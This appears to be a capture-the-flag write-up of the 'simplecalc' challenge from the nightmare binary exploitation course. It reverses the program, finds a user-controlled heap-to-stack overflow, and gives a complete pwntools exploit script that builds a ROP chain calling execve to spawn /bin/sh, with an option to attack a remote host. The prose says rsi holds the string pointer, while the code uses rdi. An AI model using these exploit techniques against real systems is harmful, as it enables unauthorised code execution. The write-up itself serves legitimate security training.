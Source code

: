```yaml
---
title: Nigtmare (module 7 simplecalc)
author: megachar0x01
date: 2021-06-28
categories: [Binary Exploitation, nightmare]

---
```



Let's start reversing it with the main function first we see that a value is taken which is stored in the no_loops variable ( Int )  then it is used to create a loop, used as a size for allocating memory on the heap, and also use to control how much memory is to be copied from  heap to stack  then input is taken from user to select what type of function is to be executed (1. addition, 2. subtraction, 3. multiplication, 4. division and 5. copy memory from heap to stack ) after the loop is completely free is used to free up heap memory and program exits

![Desktop View](https://github.com/Megachar0x01/megachar0x01.github.io/blob/main/commons/writeup2/1.png)

##### Add function

In Add function, we can see that it takes 2 input and then store it in a global variable and then check if it is greater than 39 then it will add two values and store them in a third global variable, and then the exit function and if it is smaller than 39 than prints a msg and exit without doing anything

![Desktop View](https://github.com/Megachar0x01/megachar0x01.github.io/blob/main/commons/writeup2/2.png)

Rest of the function doing as the name suggests sub,mul, and divide but with the same restrictions as add function (check the value if its greater than 39)

Now we have a general view of the program let's start working on getting shell

The first vuln I can find is that the stack has limited space ( 40 bytes ) and the number of bytes to be copied is controlled by the user


**no_loops is controlled by user**

![Desktop View](https://github.com/Megachar0x01/megachar0x01.github.io/blob/main/commons/writeup2)/3.png)

Now its time to fill the heap with values like its stack (because it will be placed on the stack ) for that we see that after the calculation function ( add, sub, mul, div) we can see that the global value is placed on the heap every time on a different address (because of for_loop multiplying by the address which is incrementing the address value )

Now its time to start working on the exploit first we start by padding . One important thing we will do is overwrite the heap pointer which will be used by the free function to free memory to bypass we will add that variable with "zero" so the free function closes without error and rest of padding till we control instruction pointer rest of is simple creating rope chain.


Now for rop chain our goal is to get shell so we can use sys_execv syscall (man execv ) to call "/bin/sh" for that we have to put the string "/bin/sh" in memory then put the memory pointer to rsi register we can put "0x0" in rest of register (rdi,rdx) and then put "0x3b" (which is number of sys_execv)   in rax and call syscall rop gadget and  u got a shell on the system (THis was the second-best challenge after sandbox escape )

```python
#!/usr/bin/python3

from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
break *main+518
continue
'''.format(**locals())

# break *0x0000000000401545



exe = "./simplecalc" ; elf = context.binary=ELF(exe,checksec=False)

rop= ROP(exe,checksec=False)

def menu(menu_no,menu_x,menu_y):
    io.sendlineafter(b"=>",menu_no)
    io.sendlineafter(b"Integer x: ",menu_x)
    io.sendlineafter(b"Integer y: ",menu_y)
    io.recvline()

def zero ():
    menu(b"2",b"2000",b"2000")

def format_f(fromat_value):
    x = int(fromat_value) - 50000
    menu(b"1",str(x),b"50000")
    zero()

def padd ():
    for x in range(18):
        zero()

#### ROP #############
mov_ptr_rax_rdx_ret = 0x000000000044526e # mov qword ptr [rax], rdx; ret; 
pop_rdi = 0x0000000000401b73
pop_rdx = 0x0000000000437a85
pop_rax = 0x000000000044db34
pop_rsi = 0x0000000000401c87
syscall = 0x00000000004648e5
bin_var = 0x6e69622f
sh_var = 0x68732f


######################


io = start ()

io.sendlineafter(b"Expected number of calculations: ",b"150")

padd ()
format_f(pop_rdx)
format_f(bin_var)
format_f(pop_rax)
format_f(0x6c0008)
format_f(mov_ptr_rax_rdx_ret)
format_f(pop_rax)
format_f(0x6c000c)
format_f(pop_rdx)
format_f(sh_var)
format_f(mov_ptr_rax_rdx_ret)
format_f(pop_rdi)
format_f(0x6c0008)
format_f(pop_rsi)
format_f(0x0)
format_f(pop_rdx)
format_f(0x0)
format_f(pop_rax)
format_f(0x3b)
format_f(syscall)


io.sendlineafter(b"=>",b"5")
io.interactive()
```


[![asciicast](https://asciinema.org/a/504622.svg)](https://asciinema.org/a/504622)
